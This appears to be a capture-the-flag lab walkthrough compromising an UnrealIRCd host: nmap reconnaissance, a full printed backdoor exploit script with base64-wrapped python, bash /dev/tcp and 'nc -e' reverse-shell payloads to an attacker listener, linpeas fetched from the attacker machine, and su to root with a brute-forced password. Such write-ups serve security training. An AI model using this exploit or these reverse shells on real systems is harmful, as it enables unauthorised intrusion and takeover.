 ```yaml
---
custom_edit_url: null
---
```


## Reconnaissance

### Nmap scan

Let's perform an `nmap` scan to find the open ports and the services running on the open ports.

```
$ nmap -T5 -Pn -A -p- 192.168.202.120
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-10 09:13 EDT
Warning: 192.168.202.120 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.202.120
Host is up (0.067s latency).
Not shown: 63888 closed tcp ports (conn-refused), 1644 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
6697/tcp open  irc     UnrealIRCd
8067/tcp open  irc     UnrealIRCd (Admin email example@example.com)
Service Info: Host: irc.foonet.com

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 330.87 seconds
```

There are three open ports:

| Port | Service |
| ---- | ------- |
| 6667 | irc     |
| 6697 | irc     |
| 8067 | irc     |

&nbsp;

## Exploitation
### Obtaining reverse shell
#### Using third party exploit

We can obtain a reverse shell on the target using a [this](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/blob/master/exploit.py) exploit.

![1](https://github.com/user-attachments/assets/6a618f70-753f-4961-9901-0ee1eaf6ab82)

```
$ wget https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/blob/master/exploit.py
--2024-08-10 09:52:21--  https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/blob/master/exploit.py
Resolving github.com (github.com)... 20.207.73.82, 64:ff9b::14cf:4952
Connecting to github.com (github.com)|20.207.73.82|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: ‘exploit.py’

exploit.py                                                     [ <=>                                                                                                                                     ] 341.74K  --.-KB/s    in 0.01s   

2024-08-10 09:52:22 (23.4 MB/s) - ‘exploit.py’ saved [349940]
```

Once downloaded, we have to modify the exploit slightly, setting our IP address.

```python title="exploit.py"
#!/usr/bin/python3
import argparse
import socket
import base64

# Sets the target ip and port from argparse
parser = argparse.ArgumentParser()
parser.add_argument('ip', help='target ip')
parser.add_argument('port', help='target port', type=int)
parser.add_argument('-payload', help='set payload type', required=True, choices=['python', 'netcat', 'bash'])
args = parser.parse_args()

# Sets the local ip and port (address and port to listen on)
local_ip = '192.168.45.234'  # CHANGE THIS
local_port = '9999'  # CHANGE THIS 

# The different types of payloads that are supported
python_payload = f'python -c "import os;import pty;import socket;tLnCwQLCel=\'{local_ip}\';EvKOcV={local_port};QRRCCltJB=socket.socket(socket.AF_INET,socket.SOCK_STREAM);QRRCCltJB.connect((tLnCwQLCel,EvKOcV));os.dup2(QRRCCltJB.fileno(),0);os.dup2(QRRCCltJB.fileno(),1);os.dup2(QRRCCltJB.fileno(),2);os.putenv(\'HISTFILE\',\'/dev/null\');pty.spawn(\'/bin/bash\');QRRCCltJB.close();" '
bash_payload = f'bash -i >& /dev/tcp/{local_ip}/{local_port} 0>&1'
netcat_payload = f'nc -e /bin/bash {local_ip} {local_port}'

# our socket to interact with and send payload
try:
    s = socket.create_connection((args.ip, args.port))
except socket.error as error:
    print('connection to target failed...')
    print(error)
    
# craft out payload and then it gets base64 encoded
def gen_payload(payload_type):
    base = base64.b64encode(payload_type.encode())
    return f'echo {base.decode()} |base64 -d|/bin/bash'

# all the different payload options to be sent
if args.payload == 'python':
    try:
        s.sendall((f'AB; {gen_payload(python_payload)} \n').encode())
    except:
        print('connection made, but failed to send exploit...')

if args.payload == 'netcat':
    try:
        s.sendall((f'AB; {gen_payload(netcat_payload)} \n').encode())
    except:
        print('connection made, but failed to send exploit...')

if args.payload == 'bash':
    try:
        s.sendall((f'AB; {gen_payload(bash_payload)} \n').encode())
    except:
        print('connection made, but failed to send exploit...')
    
#check display any response from the server
data = s.recv(1024)
s.close()
if data != '':
    print('Exploit sent successfully!')
```

Let's set up a `nc` listener.

```
$ nc -nlvp 9999                     
listening on [any] 9999 ...
```

Let's send the exploit payload.

```
$ python3 exploit.py -payload bash 192.168.202.120 6697
Exploit sent successfully!
```

We can now check back on our `nc` listener.

```
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [192.168.45.234] from (UNKNOWN) [192.168.202.120] 42784
bash: cannot set terminal process group (433): Inappropriate ioctl for device
bash: no job control in this shell
server@noontide:~/irc/Unreal3.2$ 
```

&nbsp;

## Post Exploitation

### local.txt

```
server@noontide:~/irc/Unreal3.2$ cd /home/server
cd /home/server
```

```
server@noontide:~$ cat local.txt
cat local.txt
573899f75943f510d8807e6af75a5a71
```

### Privilege Escalation

#### Enumerating Privilege Escalation vectors using Linpeas

In order to find a privilege escalation vector we have to use the [Linpeas](https://github.com/peass-ng/PEASS-ng/releases/tag/20240804-31b931f7) utility.

```
$ python3 -m http.server                               
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```
server@noontide:~$ wget http://192.168.45.234:8000/linpeas.sh
wget http://192.168.45.234:8000/linpeas.sh
--2024-08-10 10:11:55--  http://192.168.45.234:8000/linpeas.sh
Connecting to 192.168.45.234:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 860335 (840K) [text/x-sh]
Saving to: ‘linpeas.sh’

     0K .......... .......... .......... .......... ..........  5%  285K 3s
    50K .......... .......... .......... .......... .......... 11%  722K 2s
   100K .......... .......... .......... .......... .......... 17%  196K 2s
   150K .......... .......... .......... .......... .......... 23% 2.08M 2s
   200K .......... .......... .......... .......... .......... 29%  824K 1s
   250K .......... .......... .......... .......... .......... 35%  888K 1s
   300K .......... .......... .......... .......... .......... 41%  980K 1s
   350K .......... .......... .......... .......... .......... 47% 1.48M 1s
   400K .......... .......... .......... .......... .......... 53%  892K 1s
   450K .......... .......... .......... .......... .......... 59%  862K 1s
   500K .......... .......... .......... .......... .......... 65% 2.07M 0s
   550K .......... .......... .......... .......... .......... 71%  874K 0s
   600K .......... .......... .......... .......... .......... 77%  836K 0s
   650K .......... .......... .......... .......... .......... 83% 1.10M 0s
   700K .......... .......... .......... .......... .......... 89% 1.35M 0s
   750K .......... .......... .......... .......... .......... 95%  879K 0s
   800K .......... .......... .......... ..........           100% 2.11M=1.1s

2024-08-10 10:11:57 (740 KB/s) - ‘linpeas.sh’ saved [860335/860335]
```

Let's make it executable.

```
server@noontide:~$ chmod +x linpeas.sh                 
chmod +x linpeas.sh
```

We can use the `-a` option for brute-forcing.

```
server@noontide:~$ ./linpeas.sh -a
./linpeas.sh -a

<SNIP>

╔══════════╣ Testing 'su' as other users with shell using as passwords: null pwd, the username and top2000pwds
                                                                           
  Bruteforcing user root...
  You can login as root using password: root

<SNIP>
```

#### Logging in as the `root` user

```
server@noontide:~$ su root
su root
Password: root
```

```
whoami
root
```

### proof.txt

```
cat /root/proof.txt
8b06a7b03fb1b275742e0e3f1aec0569
```
